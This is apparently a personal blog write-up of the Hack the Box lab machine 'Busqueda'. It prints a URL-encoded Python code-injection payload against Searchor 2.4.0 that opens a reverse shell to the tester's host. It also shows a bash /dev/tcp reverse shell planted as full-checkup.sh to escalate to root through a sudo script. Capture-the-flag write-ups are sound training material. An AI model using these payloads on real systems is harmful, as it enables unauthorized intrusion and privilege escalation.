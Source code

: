 +++
author = "Nick"
categories = ["hack the box", "Easy"]
date = 2023-04-29T11:00:00.000Z
publishDate = 2023-04-29T11:00:00.000Z
description = " "
summary = ""
draft = false
slug = "hack-the-box-busqueda"
tags = ["hack the box", "Easy", "Linux", "Flask", "Reverse Shell", "Burpsuite", "Docker", "Code Analysis", "Bash", "Code Injection", "Gitea", "SSH Proxy"]
title = "Hack the Box - Busqueda"
url = "/hack-the-box-busqueda"
thumbnail = "/images/busqueda/logo.png"
+++

Welcome back! Today we're going to do the Hack the Box machine Busqueda. This machine is listed as an easy Linux machine. Let's see what's in store!

As usual, we start with a `rustscan`. Here are our results.

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Well, with only two options for ports, let's see what's on the web port. We add `searcher.htb` to our host file and see what's there.

![](/images/busqueda/bus1.png)

While we poke around, we'll kick off a `gobuster` to see what else might be around.

Command:
`gobuster dir -u http://searcher.htb -w /PATH/TO/WORDLIST -t 80`
`gobuster dns -u http://searcher.htb -w /PATH/TO/WORDLIST -t 80`

Now when we try to search for something, we get a patch with a `/search` endpoint and a `URL` we should use?

![](/images/busqueda/bus2.png)

We see the site is powered by `Flask` and `Searchor 2.4.0`. A quick Google shows us there seems to be some viable exploits - [like this](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/blob/main/README.md). Let's try to replicate this.

We start our `nc` listener on port `80` and fire our the following request in `burpsuite`.

`',+exec("import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(('10.10.14.2',80))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(['/bin/sh','-i'])%3b"))%23`

![](/images/busqueda/bus3.png)
![](/images/busqueda/bus4.png)

We get a connection back as `svc`. We're also able to grab the `user.txt` flag while we're at it!

![](/images/busqueda/user.png)

We copy over some `linpeas` and see what it might find. Now, during our enumeration we see another site being hosted within - `gittea`.

![](/images/busqueda/bus5.png)

Knowing this we can look for some `git` related information. We look at the `.gitconfig` file in the `svc` home directory and see it's linked to `cody`.

![](/images/busqueda/bus6.png)

Going back to `/var/www/app` we start digging through the `.git` contents. In order for us to be able to get to the `gittea` site, we need to be able to proxy our traffic through via `ssh`. So we check the contents of the `config` file here and see some credentials.

![](/images/busqueda/bus7.png)

The password didn't work for `cody` gut they did work for `svc`. We're now able to do a bit more via `ssh`. Now when we run `sudo -l` we see that we can leverage something.

![](/images/busqueda/bus8.png)

So we need to take a look at this directory for what we might be able to leverage. We aren't able to read the scripts, but we re-run our command to see what it's output is for each option. In this case we see the running `docker` images.

![](/images/busqueda/bus9.png)

So we proxy some traffic through `ssh` and see what's in the `gittea` subdomain.

Command:
`ssh -L 8888:localhost:3000 svs@searcher.htb`

Then we login as `cody` to see what's going on. Two users have made commits, `cody` and `administrator`. So we'll need a way to potentially extract some `administrator` credentials or priviledges as well. Other than that, there really isn't too much available here.

Back to the terminal. At this point we're going to try and leverage `Docker` and / or the scripts available to move forward. If you're familiar with `Docker` you know that you can use `Docker-inspect` to [obtain details](https://docs.docker.com/engine/reference/commandline/inspect/) about images. It looks like this script is simply leveraging the same command.

Command:
`sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea`
`sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' mysql_db`

This gives us back some good information, particularly passwords.

![](/images/busqueda/bus10.png)

We use the `mysql` credentials to log into the `gitea` as `administrator`. We see there is a `scripts` repo created by the `administrator`. These are the scripts that correlate to our `sudo -l` command. Now, as we inspect the code we something stand out in the `system-checkup.py`.

![](/images/busqueda/bus11.png)

Yep, that argument calls a LOCAL version of `full-checkup.sh`. This means that it doesn't check for the correct file path. We can simply create our own version of `full-checkup.sh`! You can bet that my version has a `reverse-shell` in it!

So we create a file with the following in it:
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.2/9001 0>&1
```

Then save it as `full-checkup.sh`. Change its permissions with `chmod +x`. Then we run our `sudo` command:

`sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

Next thing you know we catch a shell!

![](/images/busqueda/bus12.png)

There we have it, the `root.txt` flag and another machine down! I would say this is a good machine for some basic understanding of code analysis and how separate 'modules' can work together.